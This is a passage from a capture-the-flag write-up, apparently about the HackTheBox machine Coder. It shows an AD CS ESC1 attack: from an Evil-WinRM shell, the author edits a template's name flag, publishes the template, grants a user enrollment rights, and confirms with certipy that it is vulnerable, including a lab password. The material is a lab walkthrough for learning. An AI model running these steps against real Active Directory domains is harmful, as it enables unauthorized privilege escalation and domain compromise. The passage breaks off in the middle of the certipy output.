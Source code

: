 
I can find the exact name for the property I need to change:

    
    
    *Evil-WinRM* PS C:\programdata> $computer | get-member | findstr Name-Flag
    msPKI-Certificate-Name-Flag   NoteProperty int msPKI-Certificate-Name-Flag=402653184
    

I’ll set that to 0x1:

    
    
    *Evil-WinRM* PS C:\programdata> $computer.'msPKI-Certificate-Name-Flag' = 0x1
    

Now output it to JSON and then create the template, and enroll e.black:

    
    
    *Evil-WinRM* PS C:\programdata> $computer | ConvertTo-Json | Set-Content computer-mod-esc1.json           
    *Evil-WinRM* PS C:\programdata> New-ADCSTemplate -DisplayName "0xdf-ESC1" -Publish -JSON (cat computer-mod-esc1.json -raw)
    *Evil-WinRM* PS C:\programdata> Set-ADCSTemplateACL -DisplayName "0xdf-ESC1" -type allow -identity 'coder\e.black' -enroll
    

If I scan Coder with `certipy` now looking for vulnerable templates (with
`-vulnerable`), this new template comes out:

    
    
    oxdf@hacky$ certipy find -u e.black -p ypOSJXPqlDOxxbQSfEERy300 -target coder.htb -text -stdout -vulnerable
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    ...[snip]...
    Certificate Templates
      0
        Template Name                       : 0xdf-ESC1
        Display Name                        : 0xdf-ESC1
        Certificate Authorities             : coder-DC01-CA
        Enabled                             : True
        Client Authentication               : True
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : True
        Certificate Name Flag               : EnrolleeSuppliesSubject
        Enrollment Flag                     : AutoEnrollment
        Private Key Flag                    : AttestNone
        Extended Key Usage                  : Server Authentication
                                              Client Authentication
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 1 year
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
          Enrollment Permissions
            Enrollment Rights               : CODER.HTB\Erron Black
          Object Control Permissions
            Owner                           : CODER.HTB\Erron Black
            Full Control Principals         : CODER.HTB\Domain Admins
                                              CODER.HTB\Local System
                                              CODER.HTB\Enterprise Admins
            Write Owner Principals          : CODER.HTB\Domain Admins
                                              CODER.HTB\Local System
                                              CODER.HTB\Enterprise Admins
            Write Dacl Principals           : CODER.HTB\Domain Admins
                                              CODER.HTB\Local System
                                              CODER.HTB\Enterprise Admins
            Write Property Principals       : CODER.HTB\Domain Admins